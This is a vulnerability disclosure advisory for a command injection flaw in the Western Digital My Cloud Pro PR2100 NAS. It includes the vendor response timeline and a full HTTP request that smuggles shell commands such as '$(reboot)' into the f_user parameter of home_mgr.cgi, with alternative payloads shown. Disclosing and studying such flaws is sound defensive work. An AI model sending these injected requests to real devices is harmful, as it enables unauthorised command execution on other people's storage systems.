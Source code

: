 **Vulnerability Summary**<br>
A vulnerability in the Western Digital My Cloud Pro Series PR2100 allows authenticated users to execute commands arbitrary commands.

**Credit**<br>
An independent security researcher has reported this vulnerability to Beyond Security’s SecuriTeam Secure Disclosure program.

**Vendor Response**<br>
The vendor was notified on the 28th of November 2017, and responded that they take security seriously and will be fixing this vulnerability promptly, repeated attempts to get a timeline or fix failed, the last update received from them was on the 31st of Jan 2018, no further emails sent to the vendor were responded. We are not aware of any fix or remediation for this vulnerability.

**Vulnerability Details**<br>
In detail, due to a logic flaw, with a forged HTTP request it is possible to bypass the authentication for HTTP basic and HTTP digest login types.
Log into the web application using a low privilege user, once the main page loads, find in burp proxy history for a request to `/cgi-bin/home_mgr.cgi`

```
POST /cgi-bin/home_mgr.cgi HTTP/1.1
Host: 10.10.10.193
Content-Length: 25
Accept: application/xml, text/xml, */*; q=0.01
Origin: http://10.10.10.193
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_0) AppleWebKit/537.36
(KHTML, like Gecko) Chrome/61.0.3163.100 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Referer: http://10.10.10.193/
Accept-Language: ko,en-US;q=0.8,ko-KR;q=0.6,en;q=0.4
Cookie: PHPSESSID=650fda9b5fe3a35a5315d85bf929b247; fw_version=2.30.165; usern
ame=abcd; local_login=1; isAdmin=0
Connection: close
cmd=7&f_user=abcd$(reboot)
```

The last line can be replaced with:<br>
`cmd=7&f_user=abcd$(ping x.x.x.x)`

Or:<br>
`cmd=7&f_user=abcd$(mkdir /tmp/nshctest)`

This means you can run any Linux command and it would execute. But there will be no feedback in the response.

